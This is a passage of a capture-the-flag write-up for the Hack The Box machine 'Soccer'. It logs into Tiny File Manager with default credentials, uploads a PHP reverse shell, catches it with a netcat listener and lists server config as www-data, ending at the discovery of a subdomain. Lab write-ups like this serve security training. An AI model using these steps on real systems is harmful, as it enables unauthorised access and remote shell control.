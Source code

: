 We got the login page on /tiny/

<img src="https://user-images.githubusercontent.com/67650329/208856552-9639bdb7-4fad-4f25-a59d-9d6eed860067.png" width="300px" align="center">

On this web use Tiny File Manager we can try use default username and password. I Think we can search on search engine.

[Tiny File Manager Documentation](https://github.com/prasathmani/tinyfilemanager)

```
Default username/password: admin/admin@123 and user/12345
```
<img src="https://user-images.githubusercontent.com/67650329/208857329-5f0611f1-a47a-4e17-8221-a8fe538ade3b.png" width="300px" align="center">

We made it into the dashboard.

We can uploads the [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) on [upload page](http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads).

And after upload the reverse shell into the file manager. We can run the reverse shell. on http://soccer.htb/tiny/uploads/[namefile] 

But before run the reverse shell. We must run the listener use NETCAT.

`nc -lvnp [Port]`

```
$ whoami
www-data
$ cd /etc/nginx/
$ cd sites-available
$ ls
default
soc-player.htb
$ cat soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```

We got another page soc-player.soccer.htb.
